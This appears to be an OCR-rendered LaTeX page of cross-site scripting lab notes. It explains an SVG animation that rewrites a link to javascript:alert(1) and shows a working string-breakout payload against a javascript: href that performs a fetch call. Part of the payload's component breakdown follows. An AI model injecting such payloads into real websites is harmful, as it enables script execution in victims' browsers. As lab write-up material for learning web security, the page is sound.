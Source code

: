 \documentclass{article}
\begin{document}
\begin{itemize}
\textbf{Step-by-Step Process:}
\begin{enumerate}
    \item \textbf{Page loads} with SVG containing the malicious animation
    \item \textbf{Animation immediately runs} and sets the \texttt{<a>} href to \texttt{javascript:alert(1)}
    \item \textbf{User sees} "Click me" text
    \item \textbf{User clicks} the link
    \item \texttt{alert(1)} executes in browser context
\end{enumerate}

\rule{15cm}{0.4pt}

\section*{URL Injection Payload Analysis}

\subsection*{Original Vulnerable Code}
\begin{lstlisting}[frame=single]
<a href="javascript:fetch('/analytics', {
    method:'post',
    body:'/post%3fpostId%3d4'
}).finally(_ => window.location = '/')">Back to Blog</a>
\end{lstlisting}

\subsection*{Working Payload}

\begin{lstlisting}[frame=single]
&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
\end{lstlisting}

\subsection*{\underline{Payload Component Breakdown}}

\textbf{1. Break Out of String Context}
\begin{lstlisting}[frame=single]
&'},
\end{lstlisting}
\begin{itemize}
    \item \texttt{\&} - Parameter separator
    \item \texttt{'} - Closes the single quote in \texttt{body:'...'}
    \item \texttt{\},} - Closes the fetch options object
\end{itemize}


\end{itemize}
\end{document}
